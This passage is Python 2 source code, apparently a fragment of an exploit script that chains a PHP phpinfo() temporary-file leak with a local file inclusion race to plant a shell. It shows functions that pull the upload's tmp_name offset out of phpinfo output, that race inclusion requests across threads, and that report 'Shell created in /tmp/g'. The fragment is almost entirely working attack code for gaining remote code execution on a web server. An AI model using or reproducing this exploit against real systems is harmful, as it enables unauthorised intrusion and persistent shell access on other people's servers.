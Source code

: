 ```python
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
```